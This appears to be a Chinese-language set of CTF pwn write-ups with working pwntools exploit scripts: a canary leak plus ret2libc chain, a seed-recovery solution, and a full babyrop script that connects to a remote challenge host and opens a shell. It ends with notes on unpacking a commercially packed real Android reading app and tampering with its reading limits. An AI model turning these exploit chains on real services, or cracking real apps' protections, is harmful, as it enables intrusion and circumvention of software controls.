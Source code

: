 # Pwn-littleof

这是一道有canary的libc，但是题目开始有read函数，而canary以\x00结尾，所以我们刚好用read函数填充栈，顺便带出canary的值

![e52e850f5ff406a108813b388ca028e1](C:\Users\Lenovo\Documents\Tencent Files\1253016986\nt_qq\nt_data\Pic\2024-03\Ori\e52e850f5ff406a108813b388ca028e1.png)

栈里是这样的

| rbp-0x50 |  buf   |
| :------: | :----: |
|  rbp-8   | canary |
|   rbp    |   0    |
|  rbp+8   |  ret   |

我们填0x50-0x8个数据，填到canary的位置然后让read读出canary的值

```python
payload1 = b'a'*(0x50-0x8)
p.recvuntil("Do you know how to do buffer overflow?\n")
p.sendline(payload1)
p.recvuntil(b'a'*(0x50-0x8))
canary_addr = u64(p.recv(8).ljust(8,b'\x00'))
canary_addr = canary_addr - 0x0a #0xa是换行符'\n'
```

现在我们有了canary的值，剩下就是一个正常的ret2libc

```python
payload2 = b'a'*(0x50-0x8) + p64(canary_addr) +  b'a'*8+ p64(rdi_addr) + p64(puts_got_addr) + p64(puts_plt_addr) + p64(main_addr) #填充完canary的值后,栈溢出泄露puts的地址
```

libcsearcher

```python
libc = LibcSearcher('puts',puts_addr)
lib_puts_addr = libc.dump('puts')
lib_system_addr = libc.dump('system')
lib_binsh_addr = libc.dump("str_bin_sh")

base_addr = puts_addr - lib_puts_addr
system_addr = base_addr + lib_system_addr
binsh_addr = base_addr + lib_binsh_addr

```

最后执行

```python
payload = b'a'*(0x50-0x8) + p64(canary_addr) + b'a'*8+ p64(ret_addr) + p64(rdi_addr) + p64(binsh_addr) + p64(system_addr)
p.sendline(payload)
```









# [SWPUCTF 2022 新生赛]Darling

这种题第一次见，要拖ida拿到随机数种子，nc的时候输入对应的随机数就可以了，下面是对应着伪代码c

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    int n;
    srand(0x1317E53);
    n = rand() % 100 - 64;
    printf("%d",n);
}
```









# [BJDCTF 2020]babyrop

脚本：

```python
from pwn import *
from LibcSearcher import *
context.log_level='debug'
#p = process('./pwn')
p=remote("node4.anna.nssctf.cn","28782")
elf=ELF('./pwn')
puts_got=elf.got['puts']
puts_plt=elf.plt['puts']
rdi=0x0000000000400733
rsi_r15=0x0000000000400731
vuln = elf.sym['vuln']
p.recvuntil("story!\n")
payload=b'a'*40+p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(vuln)
p.sendline(payload)

puts_addr=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))

libc=LibcSearcher('puts',puts_addr)
libbase=puts_addr-libc.dump('puts')
print(hex(libbase))

system=libbase+libc.dump('system')
binsh=libbase+libc.dump('str_bin_sh')
payload2=b'a'*40+p64(rdi)+p64(binsh)+p64(system)
p.sendline(payload2)
p.interactive()
```

遇到的问题：本地打不通，远程只有libc6_2.23-0ubuntu11_amd64能通，和题目给的不符



# Android实战

这周成功脱壳修复梆梆加固企业壳（美滋滋）

脱壳实例：扇贝阅读

脱壳方式：xp注入

回填事项：

1.恢复application入口：com.shanbay.news.common.NewsApplication

2.去除appComponetFactory



测试修改目标1：每日阅读文章数量

在other内存和c++ all内存搜索到疑似每日阅读数量储存变量约110个

全部修改为9999，显示值无变化，推测是有服务器校验



测试修改目标2：去除“完成阅读”的前提条件 阅读时长

点击完成阅读按钮，提示欲速则不达

于是apk整体搜索欲速则不达，没有结果，推测是jni传到java的（这里服务器远程传参的可能性不大，断网也会这样提示）

